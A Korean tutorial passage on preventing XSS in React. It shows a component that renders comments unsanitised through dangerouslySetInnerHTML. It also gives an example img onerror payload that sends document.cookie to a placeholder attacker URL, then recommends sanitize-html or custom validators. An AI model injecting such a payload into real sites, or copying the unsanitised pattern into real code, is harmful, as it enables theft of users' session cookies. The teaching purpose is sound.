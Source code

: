 이들은 프론트엔드에서 일어날 수 있는 가장 큰 보안 허점인 XSS를 유발할 수 있습니다.

> XSS(Cross-Site-Scripting) 공격자가 프로덕트에 원치 않는 코드를 삽입하여 실행하는 취약점입니다.

리액트로 예를 들어보겠습니다.

```jsx
import React from 'react';
import VeryDangereousInput from '@src/components/';
import fetchComments from '@api';

const Compo = () => {
  const [comments, setComments] = React.useState([]);
  const [value, setValue] = React.useState()

  React.useEffect(() => {
    fetchComments();
  })

  const _init = async () => {
    const _comments = await fetchComments();
    setComments(_comments);
  };

  return (
    <VeryDangereousInput value={value} onChange={(inputText) => setValue(inputText)} />
    <ul>
      {comments.map(c => <li key={c.id} dangerouslySetInnerHTML={{ __html: c.value }}/>)}
    </ul>
  )
}
```

위의 컴포넌트는 코멘트를 받는 그대로 저장하고, 그걸 그대로 출력하게 됩니다.

이 상황에서 악의적인 공격자가 다음과 같은 문자열을 입력한다면 어떻게 될까요?

```html
<img src="보안이 엉망이군요" onerror={fetch(http://HACKERS-RULES-URL,
{document.cookie})} />
```

네. 해당 페이지에 들어간 고객들의 쿠키 정보가 해커들에게 자동으로 수집되게 되었습니다.

쿠키에 세션 아이디나 각종 토큰을 보관하는 경우라면 엄청나게 큰 보안사고로 이어질 수 있습니다.

하지만 WYSIWIG 에디터, 마크다운 파서, 텍스트 소스에서의 마크업은 필요한 일이 상당히 있고,

이때마다 별도의 인터페이스를 작성하는 것은 몹시 힘들고 지치는 일입니다.

가장 간단한 해법은 `HTML sanitizing`을 적용하는 것입니다.

[sanitize-html @npm](https://www.npmjs.com/package/sanitize-html)

위의 라이브러리를 사용하면 삽입되었을 때 위험한 문자열을 제거해줍니다.

각종 태그에 onerror등 네이티브 이벤트 핸들러 등이 부착되는 상황을 예방할 수 있습니다.

아니면 스스로 Validator를 만들어 해당 위험요소를 제거할 수도 있습니다. 정규식을 이용해 위험한 문자열을 추출해내는 방식을 적용해도 좋고, Flux 아키텍처를 사용한다면 스토어에 dispatch 하기 전에, 혹은 db에 해당 문자열을 보내기전에 사전 검열하는 방식으로 사용할 수도 있습니다.
